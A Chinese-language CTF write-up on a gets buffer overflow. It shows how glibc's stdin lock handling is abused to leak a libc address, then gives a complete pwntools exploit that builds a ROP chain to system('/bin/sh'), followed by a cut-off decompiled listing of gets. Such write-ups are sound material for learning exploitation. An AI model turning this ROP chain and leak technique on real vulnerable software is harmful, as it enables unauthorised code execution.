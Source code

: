 ### 漏洞与问题
一上来就给了个 gets 而且 no canary no pie，所以只要有 libc leak 就都好说了，但是问题是我们控制不了 rdi，以及程序中原本可用 gadget 很少，所以通过其他寄存器控制 rdi 也是很难的    
### 思路
于是我们希望通过调用 libc 中的函数控制 rdi，在比赛的时候试了 gets 会将 rdi 指向 stdin 的 lock 字段的值，puts 会将 rdi 指向 stdout 的 lock 字段的值，这两个地址相差很近，但是周围都是大片 0 没有可以 leak 的东西，然后 setbuf 等函数也无法控制 rdi     
在复现的时候，笔者对 gets 函数进行了逆向，发现下面几个有意思的现象：(以下称呼 stdin 的 lock value 为 stdin_lock)    
- stdin_lock 字段会被当成 buffer 写入我们输入的内容
- 在 stdin_lock + 8 的位置会写一个 libc 固定偏移地址
- 输入末尾补 \x00 ，以及如果 `*(int*)(stdin_lock + 4) != 0` 则会将其减1 （补0在 -1 前面）

一个比较直观的想法是 gets 输入 8 个字节然后 puts 顺带 leak libc 地址，但是会有补0的问题，以及如果是输入 `b'a'*4+p32(0)` 的话也会无法 -1 所以我在这边卡了一大下   
解决：分两次，第一次输入 8 个非0字节，然后输入 p64(0) 把 stdin_lock + 8 覆盖为 0，以防第二次 gets 卡死   
第二次输入4字节，此时会将 stdin_lock + 4 置为 \x00 但是因为我们第一次的输入， `*(int*)(stdin_lock + 4)` 形如 0x61616100，所以会 -1，得到 0x616160ff 之类的数即可调用 puts leak libc 地址     
然后就重入 main，写 ROP 调用 `system("/bin/sh")` 即可    
值得一提的是，为什么 main 调用 gets 不会有卡死的问题，因为写入的 libc 固定偏移地址是 `__readfsqword(0x10u)` 然后会卡死的条件是 `(!_libc_single_threaded || v12)&&(v11 != v12)` 其中 v11 是 `__readfsqword(0x10u)` v12 是 `*(_QWORD *)(lock + 8)` 这里 `v11` 和 `v12` 是相等的，所以不会卡死    
所以这道题反思就是不要老是想着一些偷鸡的方法解决，还是要好好逆向好好看相关函数代码qaq    
### exp
```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p=process("./chall")
libc = ELF("./libc.so.6")
# rbx 在栈上更高的位置 rcx 在 _IO_2_1_stdin rdi rsi 在 libc r10 在栈上低位置
# gets 之后 rdi 在 stdin_lock puts 之后 rdi 在 stdout lock
p.recvuntil(">\n")
gets_plt = 0x401080
puts_plt = 0x401060
main = 0x4011ad
gdb.attach(p)
pause()
p.sendline(b"a"*0x18+p64(gets_plt)+p64(gets_plt)+p64(puts_plt)+p64(main))
p.sendline(b"a"*8+p64(0))
sleep(0.1)
p.sendline(b"bbbb")
p.recvuntil("`aa")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
print(hex(libc_leak))

# 0x7fe98adb2000 0x7fe98adaf740
libc_base = libc_leak + 0x28c0
print(hex(libc_base))
system = libc_base + libc.symbols["system"]
binshell = 0x1CB42F+libc_base
pop_rdi = 0x10f75b + libc_base
ret = 0x4011D5
p.recvuntil(">\n")
p.sendline(b"a"*0x18+p64(ret)+p64(pop_rdi)+p64(binshell)+p64(system))
p.interactive()
```
有略微逆向过痕迹的 gets 函数反汇编如下
```c
_BYTE *__fastcall gets(_BYTE *a1)
{
  _QWORD *stdin_; // r12
  _QWORD *stdin_1; // rdi
  unsigned __int8 *v4; // rax
  int v5; // eax
```
